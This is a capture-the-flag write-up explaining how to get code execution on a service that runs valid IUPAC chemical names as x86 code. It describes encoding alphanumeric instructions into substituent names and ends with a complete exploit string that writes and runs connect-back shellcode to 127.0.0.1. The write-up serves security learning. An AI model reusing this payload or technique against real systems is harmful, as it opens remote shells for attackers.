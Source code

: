 ## TNT - Misc 500

### Overview

This challenge is a service that accepts a string, uses the [opsin library](https://github.com/metamolecular/opsin) to check if it's a valid [IUPAC organic chemical name](https://en.wikipedia.org/wiki/IUPAC_nomenclature_of_organic_chemistry) (for example, the string `2,4,6-trinitrotoluene`), and if so executes the string as x86 code.

### Solution

The string is placed in RWX memory at 0x2468000; my solution was to come up with a payload (that was also a valid chemical name) that could output arbitrary bytes to 0x2469000. This way, when the payload was done running, it would fall through to my arbitrary bytes—which I chose to be connect-back shellcode.

What kind of x86 instructions do we have available to us within a chemical name? The uppercase letters are all single-byte instructions that cover most of the `inc`/`dec`/`push`/`pop` a register instructions. `h` and `j` are `push imm32` and `push imm8`, which are useful even though we won't be able to control the immediate operands fully—sadly, no valid chemical name has `h\xcd\x80\x90\x90` as a substring :P. Three additional instructions I used were `xor [ebp+0x4e], eax` (which encodes to bytes `1EN`) for writing to memory, and `sub eax, imm32` (bytes `-xxxx`) and `xor eax, imm32` (bytes `5xxx`) for manipulating `eax`.

CTF tip: [ref.x86asm.net](http://ref.x86asm.net/coder32.html) has a good table for figuring this kind of stuff out; it's easy to check for instructions with alphanumeric opcodes, and specifically ones that don't take any `r/m32` operands and thus are easy to use inside a restricted ASCII context without worrying about segfaults.

How do we generate a giant chemical name that allows for sticking in lots of instructions? My chemical name was roughly in the form of `[foo-bar-hect1ene]-[spam-eggs-hect1ene]-hectane`. Chemically, this example means a "hectane" molecule with a "foo-bar-hect1ene" and a "spam-eggs-hect1ene" attached to it; these in turn mean "hect1ene" molecules with stuff attached to them. The brackets in the name work like parenthesis, and both hectane and hect1ene are huge molecules that allow me to attach lots of things. I can choose "foo" and "bar" from [the names of various chemistry thingies](https://github.com/metamolecular/opsin/blob/master/opsin-core/src/main/resources/uk/ac/cam/ch/wwmm/opsin/resources), but with lots of restrictions. I basically just brute-forced strings from those XML files to find thingies (technically called [substituents](https://en.wikipedia.org/wiki/Substituent)) that I could use in basically any order I wanted to without the opsin library rejecting my chemical name.

My resulting payload was ~3000 characters, consisting mostly of a couple dozen hect1ene-based groups, e.g.:
```
[RheNA-OXA-    5cbz -iodo-iodo-fmoc-iodo-fmoc-bara-cura-thia-fmoc-iodo-aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]
```
As shown, I abused the fact that the opsin library is case-insensitive and premissive about extra whitespace. Ignoring the extraneous instructions, the disassembly of this string is `push 0x2d414e65; pop eax; xor eax,0x207a6263; sub eax,0x6f646f69; ~10 more different 'sub eax 0xfoo's; dec eax; dec eax; more 'dec eax's; xor [ebp+0x4e], eax`. Via choosing different substituents, I could `pop`/`xor`/`sub` `eax` with different constants to roughly set it, and then `dec eax` to get the value exactly right before writing it out to memory with `xor [ebp+0x4e], eax`. Of course, `ebp` needs to point somewhere useful beforehand, which I did by controlling `eax` as above and then just `push eax; pop ebp`ing (`[PROPIO]-` is a valid component of a chemical name that will do that). By repeating this process with `inc ebp`s in between (which encodes to just `E`), my chemical name writes out connect-back shellcode to immediately after itself in memory.

The attached script `make_name.py` will generate an exploit string, and has some comments explaining more details. A working example that connects back to 127.0.0.1:55555 is
```
[ThiYl-OXA-    5cbz -soda-tms -oxa -tms -fmoc-keto-cbz -keto-osma-fmoc-tms PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   HECTANE]-    [PROPIO]-    [RheNA-OXA-    5cbz -iodo-iodo-fmoc-iodo-fmoc-bara-cura-thia-fmoc-iodo-aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThORA OXA-    5fmoc-fmoc-cera-ioda-rada-amyl-iodo-oxa-PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThorA OXA-    5fmoc-arso-sila-cbz -thia-cbz -cbz -cbz -oxyl-tms -iodo-soda-cura-amyl-cbz -oxyl-oxyl-keto-osma-cbz -tms PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RheNA OXA-    5fmoc-tms -thia-amyl-bora-arsa-thia-fmoc-oxo PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThiyL OXA-    5fmoc-oxa -boc -oxyl-oxa -oxa -oxa -boc -oxa -sila-thia-osma-tms PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThoRA OXA-    5fmoc-iodo-oxyl-cbz -erba-ioda-aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [5oxyl-cura-amyl-amyl-bora-aura-cera-amyl-iodo-arso-iodo-fmoc-fmoc-oxo -oxa PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThULa-OXA-    5erba-arsa-arsa-amyl-cera-bora-thia-thia-rada-amyl-cbz -aura-cera-cera-cera-bara-boc-PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThIYl OXA-    5tms -aza -tms -fmoc-cbz -arso-arso-bora-cbz-PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThORA-OXA-    5tms -bara-cbz -fmoc-cbz -iodo-aza -oxa -cura-oxa -bara-amyl-amyl-cera-rada-cbz-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThuLA OXA-    5fmoc-oxyl-oxyl-iodo-rada-tms -oxyl-aza -cbz-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThIYL-OXA-    5tms -erba-thia-erba-fmoc-bora-aza -bora-cera-erba-aza PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RhOdA OXA-    5boc -oxyl-oxo -ioda-aza -aza -soda-thia-ioda-oxa -oxa -aza -oxa -aza -aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThORA-OXA-    5amyl-amyl-amyl-oxo -boc -cera-amyl-rada-fmoc-keto-cbz PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [5arso-tms -amyl-erba-tms -bora-tms -thia-tms -fmoc-tms-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RheNa OXA-    5fmoc-oxyl-oxyl-ioda-bara-tms -thia-thia-rada-tms -tms -thia-tms -inda-soda-aza PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RhenA-OXA-    5boc -thia-sila-sila-fmoc-thia-tms -tms -tms NEPTUNA-hect1ENE]-   hECTENE-    [RhOda OXA-    5boc -cbz -cbz -amyl-cbz -amyl-cbz -arso-amyl-arsa-fmoc-amyl-aura-bara-aza-NEPTUNA-hect1ENE]-   hECTENE-    [ThorA OXA-    5cbz -amyl-arso-thia-keto-iodo-iodo-boc PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThiyL OXA-    5amyl-erba-ioda-osma-fmoc-boc -aza -oxa -aza -aza -oxa PHOSPha   PHOSPha   PHOSPha   PHOSPha   HECTENE]-    HECTANE
```
